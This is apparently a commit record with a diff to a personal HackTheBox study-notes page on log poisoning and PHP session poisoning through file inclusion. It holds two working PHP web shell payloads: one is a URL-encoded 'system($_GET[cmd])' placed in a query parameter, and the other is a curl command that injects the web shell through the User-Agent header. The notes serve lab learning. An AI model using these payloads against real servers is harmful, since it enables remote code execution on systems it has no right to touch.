

Before and after one commit to HenryEarl/HenryEarl.github.io, a Jekyll site: the page built from docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/Log_Poisoning.md, in a window 1280 px wide. Shown: the whole page at 99% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; after the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
update-log-poison-image

````diff
--- a/docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/Log_Poisoning.md
+++ b/docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/Log_Poisoning.md
@@ -2,10 +2,18 @@
 title: Log Poisoning
 ---
 
-## Server Log Poisoning
+# PHP Session Poisoning
+
+##
+
+```
+http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
+```
+
+# Server Log Poisoning
 
 ```
 Jerad Rodgers@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
 ```
 
-<img src="/assets/images/rfi_log-poison.png"/>
+<img src="/assets/images/rfi_cmd_repeater.png"/>
````
Also changed, not shown: assets/images/rfi_cmd_repeater.png (added), assets/images/rfi_log-poison.png (deleted).
